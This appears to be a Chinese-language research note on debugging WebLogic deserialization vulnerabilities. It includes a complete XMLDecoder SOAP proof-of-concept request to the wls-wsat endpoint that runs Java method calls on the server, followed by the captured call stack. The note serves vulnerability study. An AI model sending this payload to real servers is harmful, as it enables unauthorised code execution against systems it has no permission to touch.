 weblogic的漏洞中反序列化占大头，反序列化漏洞大体上又分为两类，一类是T3协议，另一类也是T3是XMLDeocder。此外，还有xxe、文件上传等等漏洞。

weblogic 单步调试


先获取xray 一份poc(网上其他任意poc均可)，burp发包，响应里显示了java调用栈，获取 gadget(调用链)。（xray 的 poc 生成方式见 payload_generate.py）


	POST /wls-wsat/CoordinatorPortType HTTP/1.1
	Host: 172.16.1.9:7001
	Content-Type: text/xml
	Content-Length: 875
	
	<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><void class="java.lang.Thread" method="currentThread"><void method="getCurrentWork"><void method="getResponse"><void method="getServletOutputStream"><void method="write"><array class="byte" length="9"><void index="0"><byte>50</byte></void><void index="1"><byte>50</byte></void><void index="2"><byte>53</byte></void><void index="3"><byte>55</byte></void><void index="4"><byte>55</byte></void><void index="5"><byte>51</byte></void><void index="6"><byte>48</byte></void><void index="7"><byte>57</byte></void><void index="8"><byte>49</byte></void></array></void><void method="flush"/></void></void></void></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope></soapenv:Envelope>



![](1.jpg)

这个poc 如果出现 225773091 代表存在漏洞。记录gadget，这里我直接复制下来一段调用栈。



	processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
	__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
	_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
	doRun:778, Fiber (com.sun.xml.ws.api.pipe)
	runSync:680, Fiber (com.sun.xml.ws.api.pipe)
	process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
	handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
	handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
	handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
	handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
	run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
	doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
	runAs:146, SecurityManager (weblogic.security.service)
	authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
	run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
	post:336, HttpServletAdapter (weblogic.wsee.jaxws)
	doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
	service:99, AbstractAsyncServlet (weblogic.servlet.http)
	service:820, HttpServlet (javax.servlet.http)
	run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)